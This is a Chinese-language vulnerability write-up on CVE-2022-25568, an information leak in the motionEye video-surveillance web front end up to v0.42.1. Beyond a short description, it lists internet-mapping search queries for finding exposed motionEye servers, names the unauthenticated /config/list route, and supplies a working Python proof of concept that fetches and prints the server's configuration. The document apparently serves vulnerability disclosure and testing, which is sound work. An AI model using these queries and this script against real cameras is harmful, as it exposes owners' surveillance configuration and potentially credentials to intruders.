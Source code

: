 # MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用Python写的motion的Web前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的URL即可获取服务器敏感信息

## 漏洞影响

```
MotionEye <= v0.42.1
```

## 网络测绘

```
banner="motionEye"

app="motionEye"
app="motionEye-摄像头服务器"
app="motionEye/0.39.3"
app="motionEye/0.40"
app="motionEye01"
app="motionEye/0.33"
app="motionEye/0.35"
```

## 漏洞复现

通过查看响应Server判断是否使用，访问路由`/config/list`

## 漏洞POC

```python
import sys
import json
import requests
def exp(url):
    if url[-1] == "/":
        url = url + "config/list"
    else:
        url = url + "/config/list"
    rus = requests.get(url, verify=False)
    print("信息泄露内容:")
    print(json.dumps(json.loads(rus.text), sort_keys=True, indent=4))
if __name__ == '__main__':
    ip = sys.argv[1]
    print("访问IP:{0}".format(ip))
    exp(ip)
```

